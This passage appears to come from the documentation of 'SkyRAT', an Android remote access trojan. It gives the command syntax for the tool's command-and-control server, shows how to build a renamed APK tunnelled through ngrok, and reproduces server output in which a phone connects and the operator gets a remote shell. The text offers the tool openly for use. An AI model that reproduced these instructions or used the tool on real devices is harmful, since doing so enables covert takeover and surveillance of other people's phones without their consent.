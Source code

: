 ```kotlin
```

#### **App Name Changes**
The build system updates `strings.xml`:
```xml
<!-- Updated automatically -->
<string name="app_name">Your Custom Name</string>
```

## 🖥️ Command & Control Server

### **Server Command Syntax**
```bash
python3 skyrat.py --shell [OPTIONS]
```

### **Server Parameters**
- `-i, --ip IP_ADDRESS`: Server listening IP
- `-p, --port PORT`: Server listening port
- `--debug`: Enable debug output

### **Starting the Server**

#### **Local Server**
```bash
# Listen on specific interface
python3 skyrat.py --shell -i 192.168.1.100 -p 8000

# Listen on all interfaces
python3 skyrat.py --shell -i 0.0.0.0 -p 8000

# Debug mode with verbose output
python3 skyrat.py --shell -i 192.168.1.100 -p 8000 --debug
```

#### **Ngrok Server**
```bash
# Start with ngrok tunnel (after build)
python3 skyrat.py --build --ngrok -p 8000 -o tunnel.apk
# Server starts automatically after build

# Manual ngrok server (if ngrok already configured)
python3 skyrat.py --shell -i 0.0.0.0 -p 8000
```

### **Server Interface**

When a device connects, you'll see:
```
 ____  _          ____      _  _____ 
/ ___|| | ___   _|  _ \    / \|_   _|
\___ \| |/ / | | | |_) |  / _ \ | |  
 ___) |   <| |_| |  _ <  / ___ \| |  
|____/|_|\_\\__, |_| \_\/_/   \_\_|  
            |___/                    

Got connection from ('192.168.1.50', 45678)

Hello there, welcome to complete shell of SM-G998B (Android 13)

SkyRAT:/> 
```
